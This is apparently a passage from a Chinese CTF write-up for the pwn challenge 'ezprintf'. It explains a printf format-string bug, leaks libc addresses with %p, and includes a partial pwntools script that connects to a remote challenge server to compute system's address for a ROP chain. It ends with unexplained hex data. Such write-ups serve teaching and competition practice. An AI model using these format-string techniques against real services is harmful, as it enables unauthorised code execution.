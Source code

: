 ```python

print(conn.recvall(2))

conn.close()
```

获取flag

![image-20201020145054025](https://timg.reito.fun/archive/typora-schwarzer/image-20201020145054025.png)

```
SUSCTF{5ae87c7d892c5fd991068ab42a727ac6}
```

## [pwn]ezprintf

这题也给了`libc`

![image-20201020145559506](https://timg.reito.fun/archive/typora-schwarzer/image-20201020145559506.png)

丢进IDA看F5

![image-20201020145215792](https://timg.reito.fun/archive/typora-schwarzer/image-20201020145215792.png)

首先讲解一下预期解，因为堆题做得少，虽然感到奇怪，不过没理会`free`的用处，根本不知道`free`有`free_hook`。这题正确解法就是`buf`里写命令，然后把`system`通过`printf`任意地址写写进去。这里我就不验证了，下面介绍我的非预期解，同样也是通过`printf`任意地址写，但首先我看到了

![image-20201020145857616](https://timg.reito.fun/archive/typora-schwarzer/image-20201020145857616.png)

首先想到的是ret2libc，我就手动往栈上写了一个ROP，最终拿到了flag。`printf`能看到的东西不多，首先运行gdb动态调试看一下。在`printf`处下断点。

![image-20201020150651010](https://timg.reito.fun/archive/typora-schwarzer/image-20201020150651010.png)

查看一下堆栈

![image-20201020150727305](https://timg.reito.fun/archive/typora-schwarzer/image-20201020150727305.png)

先通过`%p`确定一下位置

```
What do you want to say
%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p
you say:
0x7f30083ec7e30x7f30083ed8c00x7fffc004d0100x8(nil)0x7fffc004d2600x7f3008800b6c0x70257025702570250x70257025702570250x70257025702570250xa702570257025(nil)(nil)0x7fffc73e77800xdbf61f831d8b3a00
```

因此计算出`__libc_start_main+231`是`%17$p`。脚本开写

```python
from pwn import *

conn = remote('146.56.223.95', 20005)
# conn = process("/home/schlinux/ezprintf")

print(conn.recvline())
conn.send("schwarzer")

print(conn.recvline())
print(conn.recvline())
conn.sendline("%17$p")
print(conn.recvline())
libc_start_main_str = conn.recvline(False)
print(libc_start_main_str)
libc_start_main = int(libc_start_main_str, 16) - 231
# system = 0x4F4E0
system_ptr = libc_start_main + (0x4F4E0 - 0x21AB0)
```

[0]:  000000000000000000000000aba596caeac381cd80d5cdaa098a82b999ead1d9
[1]:  000000000000000000000000c9219dd84a3210920addbead9d0099f4a8b27229
[2]:  00000000000000000000000000000000000000000000000000000000000f32a7
[0]:  0000000000000000000000000000000000000000000000000000000000000020
[1]:  0000000000000000000000000000000000000000000000000000000000000030
[2]:  6333567a5933526d4d6a41794d45426a65574a6c636e4e7759574e6c6332566a
[3]:  64584a7064486b75623235736157356c00000000000000000000000000000000